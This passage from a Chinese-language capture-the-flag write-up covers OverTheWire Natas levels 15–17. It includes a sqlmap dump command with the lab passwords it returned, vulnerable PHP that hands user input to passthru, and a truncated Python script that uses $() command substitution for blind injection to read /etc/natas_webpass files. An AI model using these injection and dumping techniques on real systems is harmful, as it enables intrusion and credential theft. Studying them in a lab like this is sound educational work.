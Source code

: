 ```bash
sqlmap -r sqlmap.txt --dbms=mysql --level=3 --batch -D natas15 -T users --dump

Database: natas15
Table: users
[4 entries]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 6P151OntQe                       | bob      |
| HLwuGKts2w                       | charlie  |
| hPkjKYviLQctEW33QmuXL6eDVfMW4sGo | natas16  |
| hROtsfM734                       | alice    |
+----------------------------------+----------+
```

## Level 16 → Level 17

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&`\'"]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i \"$key\" dictionary.txt");
    }
}
?>
```

但是没有过滤掉 `$()` 表达式，至少可以无回显盲注

由于源码中的 `grep` 带有 `-i` 参数，会影响大小写判断，所以可以考虑自己组装一个盲注

考虑采用 `Africans` 单词作为基底，在其前端加上 `$(grep)` 盲注表达式，会出现两种情况

- 如果 `$(grep 123 /etc/natas_webpass/natas16)Africans` == `Africans` 成立，则有回显，那么说明 `123` 不在 `/etc/natas_webpass/natas16` 中
- 如果 `$(grep 123 /etc/natas_webpass/natas16)Africans` == `Africans` 不成立，则没有回显，那么说明 `123` 在 `/etc/natas_webpass/natas16` 中

可以先基于此思路，将`/etc/natas_webpass/natas16`出现的字符集进行提取

```python
import string
import requests
from requests.auth import HTTPBasicAuth

dics = string.ascii_letters + string.digits

result = ""

for i in dics:
    req = requests.post(
        f"http://natas16.natas.labs.overthewire.org/index.php?needle=$(grep {i} /etc/natas_webpass/natas17)Africans&submit=Search",
        auth=HTTPBasicAuth("natas16", "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"),
    )

    res = req.text.split("Output:")[1].split("<div")[0].strip().split("\n")[1:-1]
    if res == []:
```